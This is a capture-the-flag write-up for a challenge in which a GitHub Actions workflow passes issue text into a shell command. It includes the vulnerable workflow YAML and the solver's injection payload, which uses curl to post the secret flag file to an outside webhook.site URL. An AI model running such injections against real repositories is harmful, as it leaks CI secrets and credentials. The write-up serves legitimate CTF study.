





# Geet-into-action

## The Problem

Points: 500

Rating:easy

Author:kigibek

Flavor Text:
```
If you want to develop a software faster you need to geet into action! Automate everything! Checkout how we are automating everything through issues: https://github.com/hackpack-ncsu/geet-into-action
```




## Solution

head to the provided url: https://github.com/hackpack-ncsu/geet-into-action

looked into the repositories scripts and found two .ymls that appear to describe CD/CI scripts that take advantage of GitHub automation systems to build and manage code deployment, dependency upgrades and many more standard tasks.

update-issue.yml:
```
name: Trigger workflow with issue

on: [issues]
permissions:
  issues: write
jobs:
  start:
    runs-on: ubuntu-latest
    timeout-minutes: 2
    steps:
    - run: echo "${{ secrets.FLAG1 }}" > flag
    - run: 'echo "${{ github.event.issue.body }}" > tmpfile'
  end:
    if: ${{ always() }}
    runs-on: ubuntu-latest
    steps:
    - run: echo https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}}
    - run: |
        curl \
        -X PATCH \
        -H "Authorization: token ${{ github.token }}" \
        -H "Accept: application/vnd.github.v3+json" \
        https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}} \
        -d '{"title":"This is new title", "body": "action run finished"}'

```

clean-workflow-run.yml:

```
name: Clean the logs of the run
on:
  # Allows you to run this workflow manually from the Actions tab
  workflow_run: 
    workflows: [Trigger workflow with issue]
    types:
      - completed

# A workflow run is made up of one or more jobs that can run sequentially or in parallel
jobs:
  # This workflow contains a single job called "build"
  clean:
    # The type of runner that the job will run on
    runs-on: ubuntu-latest

    # Steps represent a sequence of tasks that will be executed as part of the job
    steps:
      # Checks-out your repository under $GITHUB_WORKSPACE, so your job can access it
      - uses: actions/github-script@v6
        with:
          script: |
            github.rest.actions.deleteWorkflowRun({
              owner: context.repo.owner,
              repo: context.repo.repo,
              run_id: context.payload.workflow_run.id
            })
```


the key thing here that these tasks look to parse new issues posted to the repository and after doing this wipe their visible details and clear the log files so you cant see what was done on the container github launces to execute the tasks. 

the parsing appears to point to a command injection of some kind that needs to get access to environment vars by exporting the flag file found at the start of each task. "echo "${{ secrets.FLAG1 }}" > flag"

I found that the issues section was really active and that if watched closely enough you could read out the attempted injections the other teams are trying. from this i learned a few things. first what error-ed on the back-end, what types of commands might work and most importantly there are websites allowing you to setup web server responders anonymously, quickly and without the need for deploying your own system to catch the outgoing data we need to trick the target system into sending to us. 


Here is what the issues look like once the script runs:



The many issues posted from other teams at work: 




I settled on trying to cat the flag file and posting it to my new favorite website https://webhook.site so I can tail the result

cat ./flag
```
$(curl -X POST -H “Content-Type: text/plain" -d "/usr/bin/cat flag" https://webhook.site/656bca6f-7e89-4917-91a5-01cf4919c4a6?)
```




and we have posts




## Flag

```
flag{b3_c@reful_with_@ct10n$}
```

## Final Notes

while I definitely used "alternately available methods of research"(cheated) to get this one I find github as a challenge for CTFs to be a fantastic idea! its was more real world applicable and showed that these events don't always need to be in puzzle formats.

